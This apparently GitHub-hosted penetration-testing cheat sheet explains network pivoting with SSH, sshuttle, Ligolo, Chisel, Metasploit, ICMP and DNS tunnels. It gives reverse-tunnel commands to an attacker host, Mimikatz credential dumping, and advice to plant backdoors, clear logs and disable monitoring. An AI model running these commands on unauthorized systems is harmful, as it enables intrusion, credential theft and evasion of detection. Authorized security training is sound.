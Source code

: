 # Pivoting in Penetration Testing

## Introduction
Pivoting is a powerful technique in penetration testing that allows an attacker to move deeper into a target network. Mastering tools like SSH, Chisel, Ligolo, Metasploit, and ProxyChains enables penetration testers to navigate restricted environments effectively. This enables lateral movement within an organization’s internal infrastructure. By leveraging pivoting, attackers can bypass security controls like firewalls and access sensitive internal resources. 

## Table of Contents
- [Pre Pivot](#pre-pivot)
  - [Compromise an Initial Host](#compromise-an-initial-host)
  - [Identify Network Interfaces](#identify-network-interfaces)
  - [Enumerate Internal Network](#enumerate-internal-network)
- [Pivoting](#pivoting)
  - [SSH Pivoting (Dynamic and Local Port Forwarding)](#ssh-pivoting-dynamic-and-local-port-forwarding)
  - [SSHuttle Pivoting](#sshuttle-pivoting)
  - [Ligolo (Auto Route Creation)](#ligolo-auto-route-creation)
  - [Chisel (Fast TCP/UDP Tunneling)](#chisel-fast-tcpudp-tunneling)
  - [Metasploit Pivoting](#metasploit-pivoting)
  - [Plink (PuTTY Link) Pivoting](#plink-putty-link-pivoting)
  - [RDP Pivoting](#rdp-pivoting)
  - [ICMP Tunneling](#icmp-tunneling)
  - [DNS Tunneling](#dns-tunneling)
- [Post Pivoting](#post-pivoting)
  - [Routing Traffic Through Compromised Host](#routing-traffic-through-compromised-host)
  - [Exploit Further and Move Laterally](#exploit-further-and-move-laterally)
  - [Maintain Access and Cover Tracks](#maintain-access-and-cover-tracks)

--- 
# Pre Pivot 
- ## Compromise an Initial Host
  - Gain access to an external system using exploits, phishing, or credentials.
  - Obtain a shell or remote desktop access.
- ## Identify Network Interfaces
  - Check available interfaces and network connections:
    ```bash
    ip a
    ip route
    ifconfig
    netstat -rn
    ```
  Identify internal IP ranges that may indicate private networks.

- ## Enumerate Internal Network
  - Scan internal subnets using: `nmap -sP 10.10.0.0/24`
  - Check for active services: `nmap -sV -p 80,443,3389,445 10.10.0.10`
  - Extract credentials if possible (e.g., from memory dumps or configuration files).

--- 
# Pivoting
  - ## SSH Pivoting (Dynamic and Local Port Forwarding)
      - Improper pivot as some of the reuest will not work.
      - Create a SOCKS proxy to route traffic: `ssh -D 1080 -N user@compromised-host`
      - Use local port forwarding to expose internal services: `ssh -L 8080:10.10.0.10:80 user@compromised-host`
      - Then use ProxyChains
          - Modify /etc/proxychains.conf to use SOCKS5 proxy: `socks5 127.0.0.1 1080`
          - Run tools through ProxyChains: `proxychains nmap -sT 10.10.0.0/24` 
  - ## SSHuttle Pivoting
      - Improper pivot as some of the reuest will not work.
      - `sshuttle -r privilege@192.168.80.10 192.168.98.0/24`
      - Explained `sshuttle -r user@target internal_ip/24`.
  - ## Ligolo (Auto Route Creation)
      - Setup network configuration
        ```bash
            ip tuntap add user root mode tun ligolo
            ip link set ligolo up
        ```
      - On attacker's machine: `./ligolo -reverse -listen :9090`
      - On compromised machine: `./ligolo -connect attacker-ip:9090`
      - Type on proxy
        ```bash
        session
        start
        ifconfig
        ```
      - Configure Internal IP with proper IP (Replace given IP with targets internal ip)
         ```bash
         ip route add 192.168.148.0/24 dev ligolo
         ip route list
         ```
  - ## Chisel (Fast TCP/UDP Tunneling)
      - On the attacker's machine (server): `./chisel server -p 8080 --reverse`
      - On the compromised machine (client): `./chisel client 192.168.1.100:8080 R:1080:socks`
      - Then use ProxyChains
          - Modify /etc/proxychains.conf to use SOCKS5 proxy: `socks5 127.0.0.1 1080`
          - Run tools through ProxyChains: `proxychains nmap -sT 10.10.0.0/24` 
        
  - ## Metasploit Pivoting
      - Use autoroute to add routes through the compromised system: `run autoroute -s 10.10.0.0/24`
      - Use socks4a module to enable ProxyChains:
        ```bash
        use auxiliary/server/socks4a
        set SRVPORT 1080
        exploit
        ```
  - ## Plink (PuTTY Link) Pivoting
      - Windows-based SSH tunneling: `plink.exe -D 1080 -N user@compromised-host`
  - ## RDP Pivoting
      - Use RDP to connect to internal machines: `xfreerdp /u:user /p:password /v:10.10.0.10`
  - ## ICMP Tunneling
      - Use tools like icmptunnel to route traffic over ICMP: `./icmptunnel -s attacker-ip`
  - ## DNS Tunneling
      - Use iodine to tunnel traffic over DNS: `iodine -f -P password -r attacker.com`

---
# Post Pivoting
- ## Routing Traffic Through Compromised Host
  - Use Metasploit’s autoroute to configure routes: `run autoroute -s 10.10.0.0/24`
  - Scan the internal network from Metasploit: `run post/multi/manage/autoroute`

- ## Exploit Further and Move Laterally
  - Use credentials to access other machines (Pass-the-Hash, RDP, SMB, etc.).
  - Dump credentials using Mimikatz:
    ```bash
    mimikatz.exe
    sekurlsa::logonpasswords
    ```
  - Use SMB relay attacks to gain further access.

- ## Maintain Access and Cover Tracks
  - Set up persistent backdoors (e.g., SSH keys, scheduled tasks).
  - Clear logs and disable security monitoring where possible.
